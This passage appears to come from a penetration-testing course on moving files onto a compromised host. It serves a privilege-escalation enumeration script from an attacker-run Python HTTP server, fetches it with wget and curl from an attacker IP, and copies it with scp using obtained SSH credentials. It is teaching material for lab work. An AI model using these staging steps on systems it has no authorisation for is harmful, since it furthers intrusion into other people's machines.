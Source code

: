 * * *

## Using wget

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```shell
cd /tmp
python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```shell
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]

```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

```shell
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

```

Note that we used the `-o` flag to specify the output file name.

* * *

## Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```shell
scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh

```
